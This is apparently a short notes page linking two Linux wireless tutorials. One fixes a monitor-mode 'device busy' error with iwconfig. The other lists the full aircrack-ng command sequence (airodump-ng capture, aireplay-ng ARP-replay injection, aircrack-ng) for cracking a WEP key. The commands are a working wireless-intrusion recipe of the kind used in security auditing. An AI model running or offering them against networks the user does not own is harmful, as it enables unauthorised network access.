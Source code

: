 # How to fix ‘ioctl(SIOCSIWMODE) failed: Device or resource busy ‘ problem. [...](https://taufanlubis.wordpress.com/2010/05/14/how-to-fix-ioctlsiocsiwmode-failed-device-or-resource-busy-problem/)
iwconfig wlan0

First turn of your wireless card. Type ‘sudo ifconfig wlan0 down‘.

Second, change your wireless card mode from ‘Managed’ to monitor. Type ‘sudo iwconfig wlan0 mode monitor‘.

Third, turn on again your wireless card. Type ‘sudo ifconfig wlan0 up‘.

Fourth, check the wireless card status. Type ‘sudo iwconfig wlan0‘.


# How to crack a wireless WEP key using AIR Crack [...](http://linuxconfig.org/how-to-crack-a-wireless-wep-key-using-air-crack)
	$ apt-get install aircrack-ng
	$ /sbin/iwconfig
	$ airmon-ng start wlan0
	$ airodump-ng wlan0
	$ airodump-ng -c 6 -w data-capture wlan0
	$ aireplay-ng -3 -b 00:11:95:9F:FD:F4 -h 00:13:02:30:FF:EC wlan0 
	$ aircrack-ng -z data-capture-01.cap